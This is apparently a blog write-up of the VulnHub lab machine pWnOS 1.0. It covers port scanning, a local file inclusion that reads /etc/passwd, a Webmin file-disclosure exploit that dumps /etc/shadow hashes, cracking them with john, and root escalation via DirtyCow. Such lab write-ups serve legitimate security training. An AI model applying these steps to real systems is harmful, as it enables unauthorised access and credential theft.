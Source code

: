 ```yaml
---
layout: post
title:  "pWnOS: 1.0"
date:   2021-1-21  +0400
categories: vulnhub pwnos1
description: "It's a linux virtual machine intentionally configured with exploitable services to provide you with a path to r00t. This is also the first machine of the pWnOS series. This machine is ranked as easy, but took loads of effort to pwn. Hope you enjoy it!"
---
```


<span style="text-decoration: underline">Box Stats:</span>

| Name: | pWnOS: 1.0 |
|-------|--------|
| Series: | [pWnOS](https://www.vulnhub.com/series/pwnos,3/) |
| Link: | [pWnOS: 1.0](https://www.vulnhub.com/entry/pwnos-10,33/) |
| OS: | Linux - Ubuntu 2.6.32 |
| Creator: | [pwnos](https://www.vulnhub.com/author/pwnos,6/) |


## Topics: ##
- LFI
- PHP enumeration
- Hash Cracking
- Privilige Escalation

## Recon ##
Start your scans and gather your results!
```
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 e4:46:40:bf:e6:29:ac:c6:00:e2:b2:a3:e1:50:90:3c (DSA)
|_  2048 10:cc:35:45:8e:f2:7a:a1:cc:db:a0:e8:bf:c7:73:3d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -59m54s, deviation: 4h14m34s, median: -3h59m55s
|_nbstat: NetBIOS name: UBUNTUVM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: ubuntuvm
|   NetBIOS computer name: 
|   Domain name: nsdlab
|   FQDN: ubuntuvm.NSDLAB
|_  System time: 2021-01-11T11:16:24-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## Enumeration ##
We have a couple of ports open that are interesting and can be the potential way inside the machine. We know that `SSH` can be used as a stable connection, so I am guessing there will not be any misconfigurations with that protocol. 

# Port 80 - HTTP ## 
When browsing to the webpage at the IP address, we are greeted with a `pWnOS homepage`. We can click the next button which navigates us to a page that allows us to enter our name and choose our skill. By clicking the `Please Help!` button, we get trolled by the webpage telling us that we suck.

I was unaware of an LFI in this page, however once I deleted the end of the url which was `name=&submit=Please+Help%21` a php error was displayed: ` Warning: include() [function.include]: Failed opening '' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/index1.php on line 18`. From here, we can use the `connect` function and set it to `/etc/passwd` for the LFI. This displays the `/etc/passwd` file:

![/etc/passwd from LFI]()

# Port 139+445 - SMB #
Nothing interesting was found in the file share. The shares were:
```
	Sharename       Type      Comment
	---------       ----      -------
	home            Disk      Home Directory for vmware User
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (ubuntuvm)
```

The `print$, IPC4$` shares had no valuable info, but the `home` share allowed us to view the `vmware` users files. I don't want to spoil the machine, so I will finish enumerating this protocol.

# Port 10000 - Webmin HTTP #
When browsing to the url `http://________:10000/` we are redirected to `/session_login.cgi`. When I first tried enumerating the login field, after a number of tries, I was blocked from the server. After restarting the machine, I started looking for exploits that relate to `Webmin 0.01`. I found an exploit with the CVE of `CVE-2006-3392` at [SecurityFocus](www.securityfocus.com) that can be found [here](http://www.securityfocus.com/bid/18744). It is luckily a metasploit module as well, which makes it easier for us to exploit. We can use it download files from the host (and we have root priviliges too!). I was able to download the `/etc/passwd` and `/etc/shadow` file:

`/etc/passwd` file:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```

`/etc/shadow` file:
```
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
```

We can use the `unshadow` tool to create a file with the combined data of the `/etc/passwd` and the `/etc/shadow` file to create one file with the usernames and password details. The usage is simple: `sudo unshadow PASSWORD-FILE SHADOW-FILE`. This will give us the output of:
```
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:!:100:101::/nonexistent:/bin/false
syslog:!:101:102::/home/syslog:/bin/false
klog:!:102:103::/home/klog:/bin/false
mysql:!:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:!:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:1001:1001::/home/obama:/bin/bash
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:1002:1002::/home/osama:/bin/bash
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:1003:1003::/home/yomama:/bin/bash
```

## Exploitation ##
We can crack the hashes that we have gathered, I used `john` and the `rockyou.txt` wordlist to crack the hashes. I was able to find the `vmware` user's password which was `h4ckm3`. I used this to login via SSH, but this can also be used to login to the SMB server! From here, we can use the widely-known `DirtyCow` exploit which works on `Linux Kernel 2.6.22 < 3.9`. Compile the exploit using the `gcc -pthread dirty.c -o dirty -lcrypt` command. After following the prompt, the user `firefart` will be added with the password you chose:

```
$ su firefart
Password: password
$ id
uid=0(firefart) gid=0(root) groups=0(root)
```
We have pwned the machine! This machine was easy but took hard work to find LFIs and other issues. The webmin server also issues IP bans which made me restart the machine several times. Thank you for reading this writeup, and see you later! 
